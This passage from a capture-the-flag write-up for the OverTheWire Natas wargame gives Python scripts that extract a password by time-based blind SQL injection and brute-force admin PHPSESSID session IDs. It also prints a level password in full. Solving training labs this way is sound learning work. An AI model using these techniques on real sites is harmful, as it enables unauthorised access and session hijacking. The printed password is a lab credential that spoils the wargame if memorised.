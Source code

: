 ```python
            time_get_page({
                "username": sql_query.format("".join([password, char, "%"])),
                "debug": "true"
            }): char
            for char in possible_chars
        }
        longest_time = max(password_times)
        password = "".join([password, password_times[longest_time]])
        logging.info("password: %s", password)


def main():
    print get_password()


if __name__ == "__main__":
    main()
```

The password is:

`xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP`

## 19

In this level, we must supply admin credentials to be shown the password for the
next level. Looking through the source code, we see that we can bypass supplying
admin credentials if we can trick the server into thinking we have already
logged in by setting the `PHPSESSID` cookie to the session id of an admin
account. We don't know the admin session number, but we can brute force it by
trying out session numbers. A comment in the code says that there are only a 640
possible sessions.

```python
# -*- coding: utf-8 -*-

import logging
import sys

import requests
import concurrent.futures


logging.basicConfig(level=logging.INFO, stream=sys.stderr)
logger = logging.getLogger(__name__)
# Silence noisy urllib3 debug logs
logging.getLogger("urllib3").setLevel(logging.CRITICAL)


def get_page_text(session_num):
    logger.debug(session_num)
    r = requests.get(
        "http://natas18.natas.labs.overthewire.org",
        auth=("natas18", "xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP"),
        cookies={"PHPSESSID": str(session_num)})
    if "You are an admin." in r.text:
        logger.info("Admin session: %d", session_num)
        print r.text


def main():
    with concurrent.futures.ThreadPoolExecutor(max_workers=30) as executor:
        executor.map(get_page_text, range(640))

```

[^1]: Hacking into systems without explicit permission is illegal.